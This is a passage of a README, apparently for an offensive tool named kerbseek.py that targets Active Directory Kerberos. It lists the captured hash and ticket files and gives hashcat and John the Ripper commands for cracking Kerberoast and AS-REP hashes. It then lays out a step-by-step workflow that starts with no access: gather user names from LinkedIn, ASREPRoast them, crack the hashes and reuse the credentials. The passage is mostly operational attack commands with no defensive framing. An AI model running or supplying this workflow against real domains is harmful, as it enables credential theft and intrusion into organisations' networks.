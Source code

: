 ## Output Files

| File | Description | Format |
|------|-------------|--------|
| `kerblist.txt` | Vulnerable accounts | Text list |
| `tgs_hashes.txt` | Kerberoast hashes | Hashcat 13100 |
| `asrep_hashes.txt` | ASREPRoast hashes | Hashcat 18200 |
| `tickets.txt` | Raw ticket data | Base64 |
| `kerb_details.txt` | Full report | Human-readable |
| `kerb_details.json` | JSON export | Machine-parseable |

## Hash Cracking

### Hashcat Examples
```bash
# Crack Kerberoast hashes (TGS-REP)
hashcat -m 13100 tgs_hashes.txt wordlist.txt

# Crack ASREPRoast hashes (AS-REP)
hashcat -m 18200 asrep_hashes.txt wordlist.txt

# With rules
hashcat -m 13100 tgs_hashes.txt wordlist.txt -r rules/best64.rule

# Brute force (short passwords)
hashcat -m 18200 asrep_hashes.txt -a 3 ?u?l?l?l?l?d?d?d?d
```

### John the Ripper
```bash
# Kerberoast
john --wordlist=wordlist.txt tgs_hashes.txt

# ASREPRoast
john --wordlist=wordlist.txt asrep_hashes.txt

# Show cracked passwords
john --show tgs_hashes.txt
```

## Attack Workflows

### Workflow 1: No Initial Access
```bash
# 1. Get user list from public sources (LinkedIn, website, etc.)
# 2. Try ASREPRoasting (no creds needed)
./kerbseek.py -d CORP.LOCAL --asrep discovered_users.txt

# 3. Crack captured AS-REP hashes
hashcat -m 18200 asrep_hashes.txt rockyou.txt

# 4. Use cracked creds for Kerberoasting
./kerbseek.py -d CORP.LOCAL -u cracked_user -p cracked_pass --kerberoast
```
